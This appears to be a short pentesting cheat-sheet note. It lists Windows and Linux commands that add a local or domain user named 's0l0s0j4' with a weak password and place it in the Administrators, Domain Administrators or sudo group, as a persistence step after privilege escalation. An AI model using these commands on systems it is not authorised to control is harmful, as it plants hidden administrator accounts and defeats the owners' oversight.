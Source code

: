 [[0_Common_0]] [[Linux Privilege Escalation]] [[Windows Privilege Escalation]] 
# Windows
```powershell
net user s0l0s0j4 Password123 /add
```
```powershell
net localgroup Administrators s0l0s0j4 /add
```
	Domain:
```powershell
net user s0l0s0j4 Password123 /add /domain
```
```powershell
net group "Domain Administrators" s0l0s0j4 /add /domain
```



# Linux
Add quac:
```bash
sudo adduser s0l0s0j4
```
	Grant CapN root Privileges:
```bash
sudo usermod -aG sudo s0l0s0j4
```

---
Tags:
#adduser #grantroot 